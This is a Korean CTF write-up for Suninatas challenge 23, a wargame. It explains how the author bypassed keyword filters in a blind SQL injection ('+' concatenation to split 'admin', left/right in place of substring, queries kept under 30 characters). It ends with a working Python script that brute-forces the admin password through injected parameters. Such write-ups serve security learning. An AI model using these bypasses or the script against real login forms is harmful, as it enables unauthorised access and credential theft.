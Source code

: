 ```yaml
---
title: "Suninatas 23 Write up"
categories: SQLi
tags: [blindsqli, wargame]
---
```


Suninatas 23 Write-Up
---------------------

## 문제 분석

이번 문제의 경우 이전 22번 문제에서 변형된 문제로 admin이라는 단어가 필터링에 추가됨과 동시에
substring과 같이 blind SQL Injection에 있어서 중요한 keyword들이 필터링 되었습니다.

![Suninatas_23_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_23_main.png?raw=true)

문제의 풀이 조건의 경우 이전 문제와 동일하였습니다. 이번 문제의 핵심은 admin 문자와 substring과 같은
 keyword를 대체할 방법을 찾는 것이었습니다.

* * *

## 문자열 우회

먼저 admin 문자열을 우회하는 방법에 대하여 찾아보았습니다. 우회 방법을 찾을 때 0x나 chr과 같은 keyword의 경우 필터링 되어 있기 때문에 ascii code와 같은 방식은 제외하고 찾아보았습니다.

가장 먼저 시도해본 방법은 concat 함수를 이용한 방법이었습니다. concat 함수의 경우 문자열을 합칠 수 있는 함수로 mysql에서 사용 가능한 함수이나 결과값을 얻을 수 없었습니다. 이후에 풀이를 보고 알았지만 문제 시스템이 mssql로 구성되어 있었다고 합니다.

다음으로 시도하였던 방법은 +를 이용한 우회였습니다. 이는 mssql에서 사용 가능한 우회였으나 이를 사용하여 시도하였음에도 실패한 이유를 분석한 결과 쿼리를 시도할 때 url에 직접 입력하였는데 이 과정에서 + 문자가 url encoding에서 공백을 의미하는 +로 사용되어 발생한 문제로 판단되었습니다. login form에서 시도하였을 때는 정상적으로 동작하는 것을 확인할 수 있었습니다.

* * *

## substring 우회

admin을 우회하는 것에 성공하였기에 다음으로는 substring을 대체할 방법이 필요하였습니다. substring을 
대체할 수 있는 방법으로 left와 right 함수를 이용한 방법이 있단 것을 알 수 있었으나 풀이를 통해 알게 
된 사실은 Query가 30자가 넘게 될 경우 SQL Injection으로 판단하여 차단된다는 것이었습니다.

따라서 30자가 넘지 않도록 Query문을 구성할 필요가 있었기에 제약 사항이 많았습니다. 결과적으로 
left 함수로 받아온 문자열을 right 함수를 이용하여 가장 맨 끝 글자를 가져와 비교하는 식으로 코드를 작성하게 되었습니다.

``` python
#!/usr/bin/python

import requests as req

url = "http://suninatas.com/challenge/web23/web23.asp"
cookies = { "ASP.NET_SessionId":"xn25l4eqiwhk1zdpvf54polm" }
maxpw = 15
pwlen = 0
pw = ""
params = { "pw":"SQLi" }

for a in range(1, maxpw+1):
    params["id"] = "adm'+'in' and len(pw)={}--".format(a)
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            print("Password Length is {}".format(a))
            pwlen = a
            break

for i in range(32, 128):
    params["id"] = "adm'+'in' and left(pw,1)='{}'--".format(chr(i))
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
        pw = chr(i)
        break

for i in range(1, pwlen+1):
    for j in range(32, 128):
        params["id"] = "'or right(left(pw,{}),1)='{}'--".format(i, chr(j))
        response = req.get(url, cookies = cookies, params = params)
        print("admin password is {}{}".format(pw, chr(j)), end='\r')
        if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            if i == 1:
                continue
            pw += chr(j)
            break
        
print("admin password is {}".format(pw))
```
